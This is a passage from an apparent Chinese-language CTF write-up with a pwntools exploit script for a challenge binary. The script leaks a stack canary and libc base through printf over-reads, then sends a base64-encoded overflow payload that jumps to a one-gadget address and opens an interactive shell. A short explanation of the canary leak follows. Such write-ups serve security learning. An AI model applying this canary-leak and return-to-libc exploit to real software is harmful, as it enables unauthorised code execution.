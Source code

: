```

io = process('/home/h11p/hackme/huxiangbei/pwns')

#io = remote('104.224.169.128', 18887)

#debug()

#getCanary
payload = 'a'*0x102
io.recvuntil('May be I can know if you give me some data[Y/N]\n')
io.sendline('Y')
io.recvuntil('Give me some datas:\n')
io.send(base64.b64encode(payload))
io.recvline()
myCanary=io.recv()[268:271]
Canary="\x00"+myCanary
print "Canary:"+hex(u32(Canary))

#getlibc
#debug()
payload = 'a'*0x151
io.recvuntil('May be I can know if you give me some data[Y/N]\n')
io.sendline('Y')
io.recvuntil('Give me some datas:\n')
io.send(base64.b64encode(payload))
io.recvline()
mylibc=io.recv()[347:351]
base_libc=u32(mylibc)-0x18637
print "mylibc_addr:"+hex(base_libc)


#pwn
#debug()
MAGIC_addr=local_MAGIC+base_libc
payload = 'a'*0x101+Canary+"a"*0xc+p32(MAGIC_addr)
io.recvuntil('May be I can know if you give me some data[Y/N]\n')
io.sendline('Y')
io.recvuntil('Give me some datas:\n')
io.send(base64.b64encode(payload))


io.interactive()
io.close()
```

我讲解一下如何获取Canary，因为输入的输入数据会被printf输出，遇到0x00的时候停止输出，如果输入的输入刚刚好覆盖到Canary前面就可以用printf输出Canary了，但是Canary后两位是0x00,所以得到输出之后要补足后两位的0x00

![](https://ae01.alicdn.com/kf/HTB1FJLWaHH1gK0jSZFwq6A7aXXaB.jpg)

同理也可以用这种方法计算出__libc_start_main和libc的基地址
